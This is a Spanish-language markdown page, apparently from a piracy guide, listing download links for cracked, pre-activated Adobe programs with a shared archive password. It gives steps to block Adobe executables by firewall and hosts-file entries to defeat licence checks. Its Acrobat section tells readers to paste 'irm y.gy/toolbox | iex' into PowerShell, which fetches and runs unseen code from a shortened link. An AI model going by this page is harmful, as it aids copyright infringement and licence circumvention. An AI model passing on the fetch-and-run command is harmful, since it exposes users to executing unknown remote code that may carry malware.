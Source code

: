 !- [](https://i.postimg.cc/hj85qPgG/Adobe-programas.png)
# Programas Adobe - Individuales
Descarga casi todos los programas de adobe de manera individual y completos.

---

::: details **Que programas incluye?**

**Los programas mas usados son**

1. **Adobe Photoshop:**
Es uno de los programas más empleados para la edición de imágenes, pues cuenta con un amplio repertorio de herramientas que permiten una edición profesional.
En Adobe Photoshop se pueden realizar distintas modificaciones de color, texturas y eliminar elementos, por eso es uno de los más solicitados.Además, puede ser una alternativa para crear ilustraciones en 2D con texturas.


2. **Adobe Illustrator:**
Es uno de los programas que trabaja con vectores más usados a nivel mundial.
Con Illustrator se pueden crear distintas ilustraciones para distintos fines, como la animación o la impresión.Dentro del mundo del diseño gráfico, el modelado 2D y algunas ramas artísticas digitales es uno de los programas más utilizados.


3. **Adobe Premiere:**
Es uno de los editores de video más completos y profesionales que existen, pues cuenta con incontables herramientas que permiten crear videos de gran calidad.
Adobe Premiere es uno de los programas más usados a nivel cinematográfico, debido a sus grandes cualidades que permiten resultados profesionales y de calidad.


4. **Adobe After Effects:**
Es el mejor programa para la implementación de efectos especiales.
After Effects permite modificar videos o fragmentos con distintos elementos adicionales, pero con una alta calidad y de forma profesional.


5. **Adobe InDesign:**
Es uno de los programas más usados para el diseño de material impreso, pues cuenta con distintas cualidades que permiten maquetar contenido editorial de manera profesional y con gran nitidez.

 
6. **Adobe Acrobat Reader:**
Es uno de los editores de PDF más equipados, pues cuenta con distintas funciones que permiten modificar archivos de manera profesional. Asimismo, es uno de los mejores programas para leer documentos, pues permite destacar partes con subrayado y tiene modificaciones de formato e iluminación.


8. **Adobe Audition:**
Es el programa líder para edición de audio. En su mayoría se utiliza para producción radiofónica y creación de sonido multimedia, donde se pueden entrelazar sonidos, modificarlos y recrear escenas auditivas con la mezcla de diferentes sonidos.

 
9. **Adobe Animate:**
Es un programa de animación de vectores, el cual permite dar movimiento a distintos gráficos vectoriales por medio de un lenguaje de programación. Este programa es ideal para darle vida o movimiento a las ilustraciones 2D que se pueden crear en Illustrator o Photoshop. 

:::

---
::: warning **Aviso**

Estos programas acontinuación vienen parchados, preactivados y listos para usar.
Si no confias en este tipo de repacks, puedes usar el metodo que baja los programas desde Adobe CC y luego los parchas tu mismo
- [Clickea aqui.](/Tutoriales/adobeCC.md)      
Si confias, continua...
:::

## Descarga los programas

Estos programas acontinuación vienen parchados, preactivados y listos para usar. Es recomendado bloquear los .exe de cada programa una vez los instales usando el firewall de windows y bloquear las IP de adobe.

::: info Pequeño tutorial para despues de instalar
1. Importante si deseas que tu programa se mantenga funcionando sin que te salga que tu licencia es pirata, bloqueamos el .exe de cada programa instalado por medio de firewall. Si no sabes como usa este [tutorial.](https://www.geeknetic.es/Guia/1962/Como-bloquear-el-acceso-a-internet-de-un-programa-en-el-Firewall-de-Windows-10.html)

> *Si tienen problema encontrando los .exe pueden ir a los accesos directos, darles click derecho y propiedades, y en la ventana ahora abierta solo deben de darle a **“abrir ubicación”** y ya tendrán la ubicación del .exe.*


2. Ahora bloquea las siguientes ip en el host de windows. Si no sabes usa este [tutorial](https://www.ionos.es/digitalguide/servidores/configuracion/archivo-hosts/#:~:text=los%20sistemas%20débiles.-,Así%20editas%20el%20archivo%20hosts,XP%2C%207%2C%208%20y%2010&text=Selecciona%20la%20opción%20“Ejecutar%20como,podrás%20modificar%20el%20archivo%20hosts.)

```
0.0.0.0 ic.adobe.io

0.0.0.0 r3zj0yju1q.adobe.io

0.0.0.0 cd536oo20y.adobe.io

0.0.0.0 3ca52znvmj.adobe.io

0.0.0.0 5zgzzv92gn.adobe.io

0.0.0.0 r5hacgq5w6.adobe.io

```

3. Disfruta tus programas.

:::

::: details 🟦 Photoshop     
Para las versiones la contraseña de todos es: `www.artistapirata.com`       
      
- [CC 2023](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile_premium%2Fdfbjnli6gkfgo2g%2FWIN_APS_V24.6.0.573.rar%2Ffile%3ALkujnKzNBELkkXfmCZxkLXtxYmA&cuid=4208103)        
- [CC 2022](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Fyp0f1r4j0d6r21b%2FWIN_APS_V23.5.0.669_AP_ZNT.rar%2Ffile%3Asa9zMJb198iceDCybhEHp-TnIXw&cuid=4208103)            
- [CC 2021](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Fkew510adp462kyy%2FWIN_APS_V22.5.8.998_AP_ZNT.rar%2Ffile%3AGU54grbZPWIMzy-XsSUD0g0pWho&cuid=4208103)              
- [CC 2020](http://disq.us/url?url=http%3A%2F%2Fwww.mediafire.com%2Ffile%2F732cz8arne5nlda%2FPSCC2K21.21.2.4.WIN.AP.ZNT.rar%3AKFIXEo7XoBONQly5Bs_BOWP-CAE&cuid=4208103)             
- [CC 2019](http://disq.us/url?url=http%3A%2F%2Fwww.mediafire.com%2Ffile%2Fos10tbcyzp1khd3%2FWIN_APS_2K19_V20_AP_ZNT.rar%2Ffile%3ACIztKcBJmhs6bA_bgUfqev_zNs0&cuid=4208103)               
- [CC 2018](http://disq.us/url?url=http%3A%2F%2Fbit.ly%2F2DsSPcR%3A__bJC5iOIXVUl3VXXU9WwDrCUUI&cuid=4208103)
:::

::: details 🟧 Illustrator
Para las versiones la contraseña de todos es: `www.artistapirata.com`       

- [CC 2023](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2F5rl1r0jq3yxqa8n%2FWIN_AAI_V27.1.0.189_AP_ZNT.rar%2Ffile%3ACeK6gVRz3AAB-9xzySKqvv1IYrs&cuid=4208103)        

- [CC 2022](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Fr4pb4iocxtmkapm%2FWIN_AAI_V26.5.0.223_AP_ZNT.rar%2Ffile%3AtybK_260rmaooXQoz93gntZBRY8&cuid=4208103)         

- [CC 2021](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Fmma6fhd8bcbmbkw%2FWIN_AAI_V25.4.1.498_AP_ZNT.rar%2Ffile%3A4Cxz7nNNTniZonVn6oz1Edklp9A&cuid=4208103)     

- [CC 2020](http://disq.us/url?url=http%3A%2F%2Fwww.mediafire.com%2Ffile%2Fg7sgg5fmjamqjrl%2FAI24.3.0.WIN.AP.ZNT.rar%2Ffile%3AkmpvK5tWrbBH7fSVniMMpT5ojSU&cuid=4208103)      
- [CC 2019](http://disq.us/url?url=http%3A%2F%2Fwww.mediafire.com%2Ffile%2F2dl03gyj62tknn8%2FWIN_AI_2K19_V23.1_AP_ZNT.rar%2Ffile%3A38QUK9JDZ7dXDpZ-zsqGTYYhnlE&cuid=4208103)       
:::
::: details 🟪 Premiere Pro
Para las versiones la contraseña de todos es: `www.artistapirata.com`       

- [CC 2023](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Fvxho87az9vftx32%2FWIN_APR_V23.5.0.56_AP_ZNT.rar%2Ffile%3Aptw6JuFzPinQZqxuyBcDLTNuP3c&cuid=4208103)       

- [CC 2022](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Fqs365zx4kjnpfhf%2FWIN_APR_V22.6.2.2_AP_ZNT.rar%2Ffile%3AE7PwqjtfITgWaB5kV8vHbiqL-f0&cuid=4208103)      

- [CC 2021](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2F4y56b8a4q331s91%2FWIN_APR_V15.4.1.6_AP_ZNT.rar%2Ffile%3ARwGHXBK7xF466gkE4xJsr45_0dg&cuid=4208103)      

- [CC 2020](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Fhcjo00k3pqyx2xv%2FWIN_APP_V14.9.0.52_AP_ZNT.rar%2Ffile%3A7Ka5YX9QP6TOfgeywkQR7Ht9S5M&cuid=4208103)
:::
::: details ⬛ After Effects
Para las versiones la contraseña de todos es: `www.artistapirata.com`      

- [CC 2023](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Fohfv2ixhcjsdmsc%2FWIN_AAE_V23.5.0.52_AP_ZNT.rar%2Ffile%3AfUbiPHY2UqCRNTbUai3I8kHIgQ4&cuid=4208103)       

- [CC 2022](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Fd9qd6h6ghnbn5u2%2FWIN_AAE_V22.6.0.64_AP_ZNT.rar%2Ffile%3ASknbJyGOL1pMmKQCKbFVquMzQuE&cuid=4208103)       

- [CC 2021](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Ftj269xrrx4tzso5%2FWIN_AAE_V18.4.1.4_AP_ZNT.rar%2Ffile%3ATmsc-2wKRTtj53s3d-o7Yz6RGm8&cuid=4208103)       

- [CC 2020](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Fj3yd5l42is8ukcb%2FWIN_AAE_V17.7.0.45_AP_ZNT.rar%2Ffile%3AUSrJHPkPPM-woxclwtXS-8azI2I&cuid=4208103)       

- [CC 2019](https://disq.us/url?url=https%3A%2F%2Fdrive.google.com%2Ffile%2Fd%2F1NaWnqz9AEVsEyXQDkMc8hV6w1DECwkT6%2Fview%3ASCaCYssF9mfMiF3LV5v4PcWqUCA&cuid=4208103)
:::
::: details 🟥 InDesign
Para las versiones la contraseña de todos es: `www.artistapirata.com`      

- [CC 2023](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile_premium%2Fafnyqvp3sop09b0%2FWIN_AID_V18.5.0.57_AP_ZNT.rar%2Ffile%3AhUpdmYFPPWTjVIKN5xktG_Ys0ME&cuid=4208103)        

- [CC 2022](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2F222hhlx2osn2xf9%2FWIN_AID_V17.4.0.51_AP_ZNT.rar%2Ffile%3AZ_c41JUEULpUpLCXTMFRi246wPQ&cuid=4208103)       

- [CC 2021](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Fxqefkei2bqwm5j4%2FWIN_AID_V16.4.0.55_AP_ZNT.rar%2Ffile%3AZkmXOrtvvJgxoLXAWOOUFluuqNI&cuid=4208103)         

- [CC 2020](http://disq.us/url?url=http%3A%2F%2Fwww.mediafire.com%2Ffile%2Fxi8ye7vb5oqafuv%2FID2K20.15.1.2.WIN.AP.ZNT.rar%2Ffile%3A2Ntdg9wjCyHi-5pVLzzYG5Vj5aY&cuid=4208103)
:::
::: details 🟥 Acrobat DC PDF
Para las versiones la contraseña de todos es: `www.artistapirata.com`      

1. [Acrobat CC 2023](https://www.mediafire.com/file/tfogsmbw95lf661/WIN_AADC_V2023.003.20244_AP_ZNT.rar/file)

2. Descarga e instala. No ejecutes.

3. Pega en powershell y da enter en el siguiente script.     

**Copiame:**

```
irm y.gy/toolbox | iex

```
**Imagen de referencia del script**
![](https://b.thumbs.redditmedia.com/PSAD0TGJyV3t4pihVqMNrtvz6ZAhSvNX75NySZe-AIQ.png)

4. Presiona la opcion 4 y luego la opcion 2.

5. Ve a los ajustes de Acrobat y desactiva las actualizaciones.   
Editar > Preferencias > Actualizar

:::
::: details 🟪 Audition
Para las versiones la contraseña de todos es: `www.artistapirata.com`        

- [CC 2023](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Fz3kb0pbnpynkfjy%2FWIN_AAU_V23.5.0.48_AP_ZNT.rar%2Ffile%3AvSJqu-lQsv6IWA0MT8lHFJ0NjUk&cuid=4208103)       

- [CC 2022](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Fy8i95ompzrvl8w5%2FWIN_AAU_V22.6.0.66_AP_ZNT.rar%2Ffile%3Ae8aFkXA98O5wqcEm0q-5mm_gxx0&cuid=4208103)      

- [CC 2021](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Fksfjaasazdff0ik%2FWIN_AAU_V14.4.0.38_AP_ZNT.rar%2Ffile%3AyA-WuJ5G_DXOKTfxdUeSP-9VR4A&cuid=4208103)       

- [CC 2020](http://disq.us/url?url=http%3A%2F%2Fwww.mediafire.com%2Ffile%2F68jkuwwkilj77a9%2FWIN_AAU_2K21_V13_AP_ZNT.rar%2Ffile%3ADpwvlA5vRIui2NG4mXjNeOyMCAQ&cuid=4208103)       
- [CC 2019](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Foxy5tc86uw6cksh%2FAUD.CC.2K19.12.1.3.10.WIN.AP.ZENTINELS.rar%2Ffile%3AkX8H7R7gHTLITVce_Ft6_pDXa9Y&cuid=4208103)
:::
::: details 🟦 Animate
Para las versiones la contraseña de todos es: `www.artistapirata.com`       

- [CC 2023](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile_premium%2Fl8b5rykunq7daub%2FWIN_AAN_V23.0.2.103_AP_ZNT.rar%2Ffile%3A89PqTt1cpo7nnUyoS_HNLUnIm74&cuid=4208103)
:::
::: details 👀 Otro? 

Para encontrar otros programas de Adobe puedes entrar a esta pagina: - [PAGINA PARA BAJAR OTROS PROGRAMAS](https://www.artistapirata.com/?s=adobe)

:::

---

> **¿Tienes una petición o duda durante el tutorial? ¿Se cayo un link...?**       
> *Notificalo en* - [🚀 Discord](https://discord.gg/hVKeY3uEru) 

---